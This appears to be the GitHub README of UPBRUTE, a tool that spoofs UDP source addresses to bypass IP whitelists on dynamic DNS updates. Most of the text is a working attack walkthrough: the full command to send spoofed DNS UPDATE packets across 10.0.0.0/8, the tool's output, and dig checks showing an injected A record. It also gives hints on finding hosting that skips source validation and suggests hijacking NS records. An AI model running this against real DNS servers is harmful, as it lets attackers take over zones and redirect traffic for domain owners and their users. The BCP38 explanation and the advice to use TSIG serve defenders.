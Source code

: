 # UPBRUTE
```
:::    ::: :::::::::  :::::::::  :::::::::  :::    ::: ::::::::::: :::::::::: 
:+:    :+: :+:    :+: :+:    :+: :+:    :+: :+:    :+:     :+:     :+:        
+:+    +:+ +:+    +:+ +:+    +:+ +:+    +:+ +:+    +:+     +:+     +:+        
+#+    +:+ +#++:++#+  +#++:++#+  +#++:++#:  +#+    +:+     +#+     +#++:++#   
+#+    +#+ +#+        +#+    +#+ +#+    +#+ +#+    +#+     +#+     +#+        
#+#    #+# #+#        #+#    #+# #+#    #+# #+#    #+#     #+#     #+#        
 ########  ###        #########  ###    ###  ########      ###     ########## 

                                           Dynamic DNS Update Bruteforce Tool
```

## Dynamic DNS Update Bruteforce Tool
A tool to bypass IP whitelists for [dynamic updates of a DNS zone](https://tools.ietf.org/html/rfc2136). Performs UDP source address spoofing to bypass IP whitelists which specify who is allowed to update an authoratative zone. Since UDP is a connectionless protocol and all packets are "self-contained", spoofing IP addresses in packets possible when performed via networks that don't employ source address validation.

## Source Address Validation...?
Source address validation, [BCP38](http://www.bcp38.info/index.php/Main_Page), [RFC2827](https://tools.ietf.org/html/rfc2827.html), or whatever you'd like to call it can be summarized as the act of validating packets leaving your network to ensure they are coming from IP addresses that your network advertises. For example, if your network advertises/owns an IP range of `69.252.0.0 - 69.252.127.255` and someone in your datacenter attempts to send a packet with a source address of `93.184.216.34` the correct response would be to immediately drop that packet instead of routing it. Since there is no reason for a packet with a foreign source address to be leaving your network you can immediately stop this spoofing at the beggining of this journey. Failure to do so leaves your network open to abuse as attackers will often abuse this lack of validation to do tricks like [DNS amplification](https://blog.cloudflare.com/deep-inside-a-dns-amplification-ddos-attack/).

This is important because this exact validation will stop `UPBRUTE` from working properly when it's being used against a remote Internet host. In order to properly use this tool you will need to be on a network that does not perform this verification. This is the case on many internal networks (e.g. the host you're targeting is also on the internal network) and can also be found on the general Internet with a little bit of careful searching. Consider the ethical implications of paying for this type of hosting during this process.

Despite this, I believe having this tool is important as it puts the final nail in the coffin to show that you should **never** enable IP whitelisting for DNS updates. Consider using [Secret Key Transaction Authentication for DNS (TSIG)](https://blog.hqcodeshop.fi/archives/76-Doing-secure-dynamic-DNS-updates-with-BIND.html) instead.

## Example IP Whitelist Bypass Usage
The following is an example Bind configuration that would be vulnerable to this tool:

```bind
zone "example.com" IN {
    type master;
    file "/etc/bind/zones/db.example.com";
    allow-update { 10.0.2.123; };
};
```

Since DNS UPDATEs occur via UDP and don't require a handshake to complete they are trivial to spoof source address information for. `UPBRUTE` sends spoofed DNS UPDATE queries from a range of IP addresses in order to force a remote DNS server to update its internal zone. Following the above example configuration you could force an update of the zone by running the following command:

```
$ ./upbrute.py --target 192.168.2.160 -r 10.0.0.0/8 --rrname pwned.example.com. --rrdata 137.137.137.137 --rrtype A -z example.com. --rrttl 60 -b 20000
```

The above command specifies that the Bind DNS server is located at `192.168.2.120` and that we wish to send DNS UPDATE requests from the IP range `10.0.0.0/8`. We're attempting to update/add the `A` record `pwned.example.com` and set it to the IP `137.137.137.137`.

To start, we will verify that the record does not exist first with the `dig` command line DNS tool:

```bash
$ dig A pwned.example.com @192.168.2.160

; <<>> DiG 9.8.3-P1 <<>> A pwned.example.com @192.168.2.160
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 38187
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;pwned.example.com.		IN	A

;; AUTHORITY SECTION:
example.com.		10800	IN	SOA	ns1.example.com. hostmaster.example.com. 2017012620 10800 15 604800 10800

;; Query time: 14 msec
;; SERVER: 192.168.2.160#53(192.168.2.160)
;; WHEN: Tue Feb  7 20:10:01 2017
;; MSG SIZE  rcvd: 86
```

Now we use `UPBRUTE` to send spoofed DNS UPDATE requests from the entire `10.0.0.0/8` range with the following command:

```
$ ./upbrute.py --target 192.168.2.160 -r 10.0.0.0/8 --rrname pwned.example.com. --rrdata 137.137.137.137 --rrtype A -z example.com. --rrttl 60 -b 20000


:::    ::: :::::::::  :::::::::  :::::::::  :::    ::: ::::::::::: :::::::::: 
:+:    :+: :+:    :+: :+:    :+: :+:    :+: :+:    :+:     :+:     :+:        
+:+    +:+ +:+    +:+ +:+    +:+ +:+    +:+ +:+    +:+     +:+     +:+        
+#+    +:+ +#++:++#+  +#++:++#+  +#++:++#:  +#+    +:+     +#+     +#++:++#   
+#+    +#+ +#+        +#+    +#+ +#+    +#+ +#+    +#+     +#+     +#+        
#+#    #+# #+#        #+#    #+# #+#    #+# #+#    #+#     #+#     #+#        
 ########  ###        #########  ###    ###  ########      ###     ########## 

                                           Dynamic DNS Update Bruteforce Tool
    
[ STATUS ] Beginning DNS UPDATE bruteforce from range of 10.0.0.0/8
[ STATUS ] Loading up memory buffer with packet data...
[ STATUS ] Sending spoofed DNS UPDATE packets from range 10.0.0.0-10.0.78.31 to target 192.168.2.160...
[ STATUS ] Complete, all packets sent to target! Clearing buffer and continuing...
[ STATUS ] Sent 20000 packets in 43.05 seconds ~464.55/pps!
[ STATUS ] Sending spoofed DNS UPDATE packets from range 10.0.78.32-10.0.156.63 to target 192.168.2.160...
[ STATUS ] Complete, all packets sent to target! Clearing buffer and continuing...
[ STATUS ] Sent 20000 packets in 36.83 seconds ~543.01/pps!
[ STATUS ] Sending spoofed DNS UPDATE packets from range 10.0.156.64-10.0.234.95 to target 192.168.2.160...
[ STATUS ] Complete, all packets sent to target! Clearing buffer and continuing...
[ STATUS ] Sent 20000 packets in 34.76 seconds ~575.34/pps!
[ STATUS ] Sending spoofed DNS UPDATE packets from range 10.0.234.96-10.1.56.127 to target 192.168.2.160...
[ STATUS ] Complete, all packets sent to target! Clearing buffer and continuing...
[ STATUS ] Sent 20000 packets in 35.03 seconds ~570.9/pps!
[ STATUS ] Sending spoofed DNS UPDATE packets from range 10.1.56.128-10.1.134.159 to target 192.168.2.160...
...trimmed for brevity...
```

After a few minutes we've successfully sent all of our DNS UPDATE requests to our target. We can verify that we have successfully update the remote record with the `dig` command line tool once again:

```
$ dig A pwned.example.com @192.168.2.160

; <<>> DiG 9.8.3-P1 <<>> A pwned.example.com @192.168.2.160
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 4038
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;pwned.example.com.		IN	A

;; ANSWER SECTION:
pwned.example.com.	60	IN	A	137.137.137.137

;; AUTHORITY SECTION:
example.com.		86400	IN	NS	ns1.example.com.
example.com.		86400	IN	NS	ns2.example.com.

;; ADDITIONAL SECTION:
ns1.example.com.	86400	IN	A	192.168.2.160
ns2.example.com.	86400	IN	A	192.168.2.160

;; Query time: 11 msec
;; SERVER: 192.168.2.160#53(192.168.2.160)
;; WHEN: Tue Feb  7 20:14:58 2017
;; MSG SIZE  rcvd: 119

```

Success! The remote record has been updated. While this is a trivial example, I'm sure you could imagine a much more dangerous record update which could be performed (such as, `NS`, for example). This attack can be combined with [`JudasDNS`](https://github.com/mandatoryprogrammer/JudasDNS) for some even more fun.

## TODO

* Add additional functionality to detect the correct source IP address which was successful in updating the remote target zone.